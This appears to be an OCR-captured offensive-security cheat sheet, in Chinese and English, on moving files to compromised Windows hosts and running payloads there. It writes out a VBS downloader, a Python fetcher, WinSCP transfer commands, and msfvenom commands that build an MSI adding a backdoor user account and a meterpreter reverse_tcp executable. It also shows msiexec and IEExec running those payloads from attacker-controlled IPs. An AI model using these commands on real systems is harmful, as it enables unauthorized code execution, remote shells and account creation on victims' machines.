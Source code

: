 - TFTP

	- http://tftpd32.jounin.net/tftpd32_download.html

		- tftp -i IP get filename 存放位置

- VBS脚本

	- echo Set xPost=createObject("Microsoft.XMLHTTP")>>b.vbs
echo xPost.Open "GET","http://192.168.70.128/www.rar",0 >>b.vbs
echo xPost.Send()>>b.vbs
echo set sGet=createObject("ADODB.Stream")>>b.vbs
echo sGet.Mode=3>>b.vbs
echo sGet.Type=1>>b.vbs
echo sGet.Open()>>b.vbs
echo sGet.Open()>>b.vbs
echo sGet.SaveToFile "C:\Users\sq\Desktop\a\www.rar",2 >>b.vbs
cscript b.vbs

- Python脚本

	- #!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://192.168.70.128/www.rar')
localFile = open('1.rar', 'w')
localFile.write(u.read())
localFile.close()

- WinScp

	- 上传

		- winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://username:pass@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt 

	- 下载

		- winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://username:pass@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.txt

- msiexec

	- 生成msi包

		- msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi

	- 远程执行

		- msiexec /q /i http://192.168.28.128/evil.msi

- IEexec.exe

	- 生成Payload

		- msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe

	- 远程执行

		- C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
